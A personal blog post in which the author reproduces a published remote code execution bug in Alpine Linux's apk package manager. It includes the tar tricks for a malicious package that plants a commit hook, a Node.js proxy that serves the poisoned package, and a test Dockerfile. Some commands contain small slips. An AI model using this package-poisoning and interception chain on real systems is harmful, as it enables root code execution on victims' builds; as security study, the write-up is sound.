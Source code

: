 ```yaml
---
layout: post
title: Testing RCE on Alpine Linux via APK
lang: en
description: Test a RCE vulnerability on APK + Alpine Linux
tags: docker alpine linux rce vulnerability apk
comments: true
--- 
```


I have been studying a little bit of security and one of the things I'm doing from time to time is reading CVE and trying to test and understand what is happening. Yesterday [Max Justicz](https://justi.cz/) published [Remote Code Execution in Alpine Linux](https://justi.cz/security/2018/09/13/alpine-apk-rce.html). He found an issues on `apk` which is the package manager for Alpine Linux which is super popular on docker images.

Max did a great job explaining the steps and the reasoning, but I wanted to try it myself. 


```
- Create a folder at /etc/apk/commit_hooks.d/, which doesn’t exist by default. Extracted folders are not suffixed with .apk-new.

- Create a symlink to /etc/apk/commit_hooks.d/x named anything – say, link. This gets expanded to be called link.apk-new but still points to /etc/apk/commit_hooks.d/x.

- Create a regular file named link (which will also be expanded to link.apk-new). This will write through the symlink and create a file at /etc/apk/commit_hooks.d/x.

- When apk realizes that the package’s hash doesn’t match the signed index, it will first unlink link.apk-new – but /etc/apk/commit_hooks.d/x will persist! It will then fail to unlink /etc/apk/commit_hooks.d/ with ENOTEMPTY because the directory now contains our payload.
```

The instructions seem simple but if you are not super familiar with how a tar file works, you may not understand it. On a tar file you can have multiple versions/files with the same name and you can extract one of them using `--occurrence` option. With this in mind, the instructions make a little bit more sense, so shall we try to create this file? 

First of all, let's create the directories:
```
sudo mkdir /etc/apk/commit_hooks.d/
mkdir folder_for_link
mkdir folder_for_real_file
```

Create the link:
```
/etc/apk/commit_hooks.d/x folder_for_link/magic
```

Create the real file on `folder_for_real_file/magic` with this content:
```
#!/bin/sh

echo "something" > /tmp/test-12346-YAY
echo "ha" > /testfileroot
```
(If it really works we should have a /tmp/test-123456-YAY file and one /testfileroot too)

Cool, now it seems we have almost everything we need! Let's create the apk with:
```
tar -zcvf bad-intention.apk /etc/apk/commit_hooks.d/ -C $PWD/folder_for_link/ magic -C $PWD/folder_for_real_file/ magic
```

Here we are adding all this 3 things in sequence to the tar file, you can check tar content with `t` option:
```
$ tar tvf bad-intention.apk
drwxr-xr-x root/root         0 2018-09-13 19:44 etc/apk/commit_hooks.d/
lrwxrwxrwx root/root         0 2018-09-13 19:37 magic -> /etc/apk/commit_hooks.d/x
-rwxrwxrwx root/root 954 2018-09-13 23:24 magic
```
(Pay attention on the order of this files: create directory commit_hooks.d, creation of link and creation of file)

What should be the behavior now? Since apk on alpine runs from `/` it will create the folder `/etc/apk/commit_hooks.k`, later it will extract the
link and to finish it will output the content of magic to the link which will be placed inside the `X` file. *Note*, I lost A LOT of time trying to see this behavior on `tar` it self, but it seems `tar` doesn't have this behavior and `apk` implements it's own extractor.

OK, now, we need to deliver this file when running the `apk add` inside docker. Here, I have updated /etc/hosts and pointed `dl-cdn.alpinelinux.org` to localhost. Using libraries `http-mitm-proxy http-proxy request` on node I have created a script to deliver the bad .apk when downloading something which has ltrace on url otherwise it will download the file and send to the docker.

```
var http = require('http'),
    httpProxy = require('http-proxy'),
    request = require('request'),
    fileSystem = require('fs'),
    path = require('path');

var proxy = httpProxy.createProxyServer({});

var server = http.createServer(function(req, res) {
  console.log('http://nl.alpinelinux.org' + req.url)
  if (req.url.indexOf('ltrace') > -1) {
    console.log("Trapped")
    var filePath = path.join(__dirname, 'bad-intention.apk');
    var stat = fileSystem.statSync(filePath);
    var readStream = fileSystem.createReadStream(filePath);
    readStream.pipe(res);
  } else {
      proxy = request('http://nl.alpinelinux.org' + req.url)
      proxy.on('response', function (a, b) {}).pipe(res);
  }
});

console.log("listening on port 80")
server.listen(80);
```

Building my docker with `docker build -t alpinetest --network=host --no-cache .`

```
FROM alpine:3.8

# RUN apk add python
RUN apk add ltrace

CMD "/bin/sh"
```
(If you are curious you can take a look on the test of the docker image even if it failed to build and see your files are really inside the correct places. Use `docker commit CONTAINER_ID` and `docker run -it SHA256_STRING sh`.)

This returned "The command '/bin/sh -c apk add ltrace' returned a non-zero code: 1". This happened because `apk` verifies the signature or the apk and try to clean up the files, but it is not able to since `/etc/apk/commit_hooks.k` contains a file. How to do some magic to make the apk return exit code 0? Max has found one (or two) ways of doing this. 

I still need to study what exactly the python script does to update the exit code but I have tested and it really works, as a quick test you can add `RUN apk add python` and update `folder_for_real_file/magic` to call his python code.

I know this may sound simple, but it took me a while to figure out all the tiny details. If you find any mistake I made, or want to say something, drop me a line! 

Matheus